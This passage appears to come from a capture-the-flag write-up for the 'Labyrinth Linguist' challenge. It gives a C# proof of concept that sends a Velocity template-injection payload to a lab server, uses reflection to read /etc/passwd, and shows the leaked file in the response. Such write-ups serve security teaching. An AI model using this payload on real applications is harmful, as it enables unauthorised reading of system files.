 We can get a reference to the `Main` class from `$name.getClass().forName('Main')` and call the `readFileToString` method with the path to the file we want to read. We can then use the `#set` directive to set the result to a variable and then print it out.

### Proof of Concept

Let's use a C# script to send a POST request to the server with the following payload:

```c#
var c = new HttpClient();

var text = @"
	#set($class = $name.getClass().forName('Main'))
	#set($method = $class.getDeclaredMethod('readFileToString', $name.class, $name.class))
	#set($result = $method.invoke($null, '/etc/passwd', ''))
	$result
";

var content = new FormUrlEncodedContent(new[]
{
	new KeyValuePair<string, string>("text", text)
});

var response = await c.PostAsync("http://94.237.49.147:41947/", content);

var responseString = await response.Content.ReadAsStringAsync();
responseString.Dump();
```

We get the following response:

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Labyrinth Linguist 🌐</title>
    <link rel="stylesheet" href="/css/style.css">
</head>
<body>
    <form class="fire-form" action="" method="post">
        <span class="fire-form-text">Enter text to translate english to voxalith!</span><br><br>
        <input class="fire-form-input" type="text" name="text" value="">
        <input class="fire-form-button" type="submit" value="Submit →">
    </form>
    <h2 class="fire">
        root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
```